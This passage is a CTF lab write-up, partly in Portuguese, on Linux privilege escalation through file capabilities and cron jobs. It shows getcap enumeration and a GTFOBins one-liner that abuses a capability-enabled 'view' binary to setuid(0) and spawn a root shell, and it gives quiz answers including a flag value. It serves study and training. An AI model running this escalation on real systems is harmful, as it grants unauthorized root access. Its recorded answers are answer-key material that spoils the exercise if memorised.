 ## Privilege Escalation: Capabilities

### How many binaries have set capabilities?

```bash
getcap -r / 2>/dev/null
```

- `6`

### What other binary can be used through its capabilities?

- `view`

### What is the content of the flag4.txt file?

- Ja que temos basicamente 2 arquivos para trabalhar, vamos ver mais sobre eles
    
    ```bash
    find / -name vim 2>/dev/null
    find / -name view 2>/dev/null
    ```
    
- Vamos escolher qualquer um e ir no GTFOBins e pegar algum deles na categoria `Capabilities` , e vamos pegar em `/home` dependendo de qual escolher vai estar em outro lugar
    
    ```bash
    /home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    find / -name flag4.txt 2>/dev/null
    cat /home/ubuntu/flag4.txt
    ```
    
- ou Tambem
    
    ```bash
    view /home/ubuntu/flag4.txt
    ```
    
- `THM-9349843`

---

## Privilege Escalation: Cron Jobs

### How many user-defined cron jobs can you see on the target system?

```bash
cat /etc/crontab
```

- `4`

### What is the content of the flag5.txt file?
